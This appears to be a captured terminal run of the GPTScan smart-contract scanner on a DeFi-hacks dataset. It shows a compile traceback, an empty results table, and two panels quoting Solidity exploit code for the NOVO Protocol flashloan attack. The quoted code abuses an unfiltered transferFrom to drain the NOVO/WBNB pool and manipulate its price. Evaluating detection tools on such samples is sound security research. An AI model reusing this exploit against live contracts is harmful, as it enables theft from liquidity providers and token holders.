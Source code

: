 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[16:18:56] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data//20220529 NOVO Protocol - Flashloan & Price Oracle Manipulation is a directory.                    
           Expected a Solidity file when not using a compilation framework.                                                                                                                                                                             
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data//20220529 NOVO Protocol - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a compilation                     
           framework.                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function testExploit() public {                                                                                                                                                                                                                    │
│     wbnb.deposit{ value: 10 * 1e18 }();                                                                                                                                                                                                              │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[Start] Attacker WBNB balance before exploit",                                                                                                                                                                                                │
│       wbnb.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Brrow 17.2 WBNB                                                                                                                                                                                                                               │
│     bytes memory data = abi.encode(                                                                                                                                                                                                                  │
│       0xEeBc161437FA948AAb99383142564160c92D2974,                                                                                                                                                                                                    │
│       172 * 1e17                                                                                                                                                                                                                                     │
│     );                                                                                                                                                                                                                                               │
│     PancakePair.swap(0, 172 * 1e17, address(this), data);                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[End] After repay, WBNB balance of attacker",                                                                                                                                                                                                 │
│       wbnb.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function pancakeCall(                                                                                                                                                                                                                              │
│     address sender,                                                                                                                                                                                                                                  │
│     uint256 amount0,                                                                                                                                                                                                                                 │
│     uint256 amount1,                                                                                                                                                                                                                                 │
│     bytes calldata data                                                                                                                                                                                                                              │
│   ) public {                                                                                                                                                                                                                                         │
│     // 攻擊者先買入 NOVO Token                                                                                                                                                                                                                       │
│     // 透過 NOVO Token 的 transferFrom 未過濾 `from`                                                                                                                                                                                                 │
│     // `from` 指定為 NOVO/WBNB 的 LP pool, 即可操縱 PancakeSwap NOVO/WBNB 的價格                                                                                                                                                                     │
│     // 攻擊者再賣出 flashswap 借來的 NOVO Token 即可獲利                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│     address[] memory path = new address[](2);                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[*] Attacker flashswap Borrow WBNB",                                                                                                                                                                                                          │
│       amount1,                                                                                                                                                                                                                                       │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Use borrow WBNB to swap some NOVO token                                                                                                                                                                                                       │
│     emit log_string("[*] Attacker going swap some NOVO...");                                                                                                                                                                                         │
│     wbnb.approve(address(PancakeRouter), type(uint256).max);                                                                                                                                                                                         │
│     path[0] = address(wbnb);                                                                                                                                                                                                                         │
│     path[1] = address(novo);                                                                                                                                                                                                                         │
│     PancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│       172 * 1e17,                                                                                                                                                                                                                                    │
│       1,                                                                                                                                                                                                                                             │
│       path,                                                                                                                                                                                                                                          │
│       address(this),                                                                                                                                                                                                                                 │
│       block.timestamp                                                                                                                                                                                                                                │
│     ); // get 4,749,070,146,640,911 NOVO Token                                                                                                                                                                                                       │
│     require(novo.balanceOf(address(this)) != 0, "Swap Failed");                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     // Sync NOVO token balance before exploit                                                                                                                                                                                                        │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] Attacker NOVO balance",                                                                                                                                                                                                              │
│       novo.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] PancakeSwap NOVO/WBNB LP balance",                                                                                                                                                                                                   │
│       novo.balanceOf(address(novoLP)),                                                                                                                                                                                                               │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Manipulate the LP of NOVO/WBNB => Manipulate the NOVO/WBNB price                                                                                                                                                                              │
│     emit log_string("[E] Attacker going manipulate NOVO/WBNB LP...");                                                                                                                                                                                │
│     novo.transferFrom(address(novoLP), address(novo), 113951614762384370); // 113,951,614.76238437 NOVO Token                                                                                                                                        │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] PancakeSwap NOVO/WBNB LP balance",                                                                                                                                                                                                   │
│       novo.balanceOf(address(novoLP)),                                                                                                                                                                                                               │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Sync NOVO/WBNB price                                                                                                                                                                                                                          │
│     novoLP.sync();                                                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│     // Swap NOVO to WBNB, make attacker profit                                                                                                                                                                                                       │
│     emit log_string("[*] Attacker going swap some WBNB...");                                                                                                                                                                                         │
│     novo.approve(address(PancakePair), novo.balanceOf(address(this)));                                                                                                                                                                               │
│     path[0] = address(novo);                                                                                                                                                                                                                         │
│     path[1] = address(wbnb);                                                                                                                                                                                                                         │
│     PancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│       novo.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       1,                                                                                                                                                                                                                                             │
│       path,                                                                                                                                                                                                                                          │
│       address(this),                                                                                                                                                                                                                                 │
│       block.timestamp                                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     require(wbnb.balanceOf(address(this)) > 172 * 1e17, "Exploit Failed");                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     // Payback the flashswap, will be `BorrowAmount` + 0.25% fee                                                                                                                                                                                     │
│     require(                                                                                                                                                                                                                                         │
│       wbnb.transfer(address(PancakePair), amount1 + 4472 * 10e13),                                                                                                                                                                                   │
│       "Payback Failed"                                                                                                                                                                                                                               │
│     );                                                                                                                                                                                                                                               │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                   Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value              ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                  │
│ Contracts            │ 2                  │
│ Functions            │ 2                  │
│ Lines of Code        │ 135                │
│ Used Time            │ 1.9355311393737793 │
│ Estimated Cost (USD) │ 0.0017085          │
└──────────────────────┴────────────────────┘
